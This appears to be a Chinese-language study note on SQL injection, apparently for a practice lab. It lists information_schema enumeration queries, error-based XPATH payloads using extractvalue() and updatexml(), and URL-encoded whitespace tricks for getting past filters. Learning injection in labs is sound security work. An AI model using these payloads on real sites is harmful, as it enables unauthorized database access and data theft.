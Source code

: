 ### 知识点汇总

    ```bash
    select * from information_schema.tables where table_schema="security";

    select table_schema,table_name from information_schema.tables where table_schema="security";


    select * from information_schema.columns where table_schema="security";

    select table_name,column_name from information_schema.columns where table_schema="security";

    select 1,column_name from information_schema.columns where table_name="users";

    select * from information_schema.columns   where table_schema="security" and table_name='users';

    ```

### XPATH报错

+  @ extractvalue()
[… and extractvalue(1,concat('^',(select version()),'^'))--+]

+ @ updatexml()
[… and updatexml(1,concat('^',(select version()),'^'),1)--+]

+ NUL (0x00) --> \0  [This is a zero, not the letter O]

+ BS  (0x08) --> \b

+ TAB (0x09) --> \t

+ LF  (0x0a) --> \n

+ CR  (0x0d) --> \r

+ SUB (0x1a) --> \Z

+ "   (0x22) --> \"

+ %   (0x25) --> \%

+ '   (0x27) --> \'

+ \   (0x5c) --> \\

+ _   (0x5f) --> \_
+ all other non-alphanumeric characters with ASCII values

+ less than 256  --> \c where 'c' is the original non-alphanumeric character.

+ %0a  新建一行 

+ %0b  Tab 键 （垂直）

+ %0c  新的一页 

+ %0d return 功能

+ %09  Tab （水平）

+ %a0   空格 
